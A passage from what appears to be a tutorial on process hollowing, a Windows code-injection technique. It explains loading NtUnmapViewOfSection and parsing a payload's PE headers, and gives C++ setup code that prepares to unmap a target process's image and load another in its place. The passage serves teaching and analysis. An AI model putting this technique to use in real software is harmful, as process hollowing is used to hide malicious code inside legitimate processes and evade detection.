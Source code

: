 ![alt text](/uploads/suspended.PNG)


### III. Full Setup and Context


First, we need to call **loadNtUnmapViewOfSection** in order to use **NtUnmapViewOfSection**. Also, we need to create a NT Header from calling **getNTHeaders32** and create related variables that we need.

``` cpp
DWORDLONG dwlDesiredBase = NULL; // desired base to load the remote image
BOOL unmapTarget = FALSE;        // whether to unmap target or not
if (!loadNtUnmapViewOfSection()) {
    printf("Can't load NtUnmapViewOfSection\n");
    return FALSE;
}

PIMAGE_NT_HEADERS32 pNtHeaders = getNTHeaders32(pBuffer);
if (!pNtHeaders) {
    printf("Invalid PE file...\n");
    return FALSE;
}

DWORDLONG dwlOldImageBase = pNtHeaders->OptionalHeader.ImageBase;
SIZE_T	imageSize = pNtHeaders->OptionalHeader.SizeOfImage;

//set subsystem always to GUI to avoid crashes
pNtHeaders->OptionalHeader.Subsystem = IMAGE_SUBSYSTEM_WINDOWS_GUI;
```
